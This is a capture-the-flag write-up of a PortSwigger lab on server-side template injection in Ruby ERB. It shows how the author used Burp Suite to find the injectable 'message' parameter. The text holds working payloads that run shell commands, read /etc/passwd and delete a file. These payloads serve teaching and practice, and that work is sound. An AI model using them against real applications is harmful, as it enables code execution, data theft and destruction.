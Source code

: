 🔖 Challenge Info

    Challenge Name: Basic Server-Side Template Injection

    Category: Web Exploitation

    CTF Platform: PortSwigger

    Date Solved: 2025-05-05

📜 Challenge Description

    This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB      template.
    To solve the lab, review the ERB documentation to learn how to execute arbitrary Ruby code, then       delete the morale.txt file from Carlos's home directory.

🔍 Recon & Exploitation Steps
    🔹 Understanding the Syntax
        I began by researching ERB (Embedded Ruby) syntax and how it processes template code. From the         documentation, I learned:

            <%= ... %> evaluates Ruby code and outputs the result.

            <% ... %> evaluates the code silently (no output).

        This is important when testing for SSTI.
    🔹 Finding Injection Points

    I visited the lab's web application and clicked on a product. The URL looked like this:

        https://0a21007604d9d4ffaa4126020086007f.web-security-academy.net/product?productId=2

    I tried injecting ERB syntax directly into the URL, such as:

        <%= 7 * 7 %>

    However, nothing happened — no code execution or errors were visible.
    🔹 Deeper Testing Using Burp Suite

        I used Burp Suite to inspect traffic between the browser and the server:

        Browsed the site normally while Burp was capturing traffic.

        Reviewed the HTTP history for interesting parameters.

        Found a request that contained a message field displaying:
        "Unfortunately this product is out of stock."

        This message hinted at dynamic rendering, so I sent the request to Burp Repeater for testing.
    🔹 Successful Injection

    Inside Burp Repeater, I modified the message parameter:

        Test: <%= 7 * 7 %>
        ✅ Response returned 49, confirming SSTI vulnerability.

        Test: <%= system("whoami") %>
        ✅ Returned the current user name.

        Test: <%= system("ls") %>
        ✅ Listed files, including morale.txt.

        Test: <%= system("rm morale.txt") %>
        ❌ Did not delete the file.

        Test: <%= system("pwd") %>
        ✅ Returned /home/carlos.

        Test: <%= system("rm /home/carlos/morale.txt") %>
        ❌ Still did not delete the file.

    🔹 Reading and Deleting the File with Ruby Functions

        Since system("rm ...") wasn’t working, I switched to Ruby-native functions:

        Test: <%= File.read("/etc/passwd") %>
        ✅ Successfully read the file — confirmed file access via Ruby.

        Final Payload: <%= File.delete("morale.txt") %>
        ✅ Success! File deleted. Lab marked as solved.

🏁 Flag

    (No flag was provided — solving the lab by deleting the file completes the challenge.)

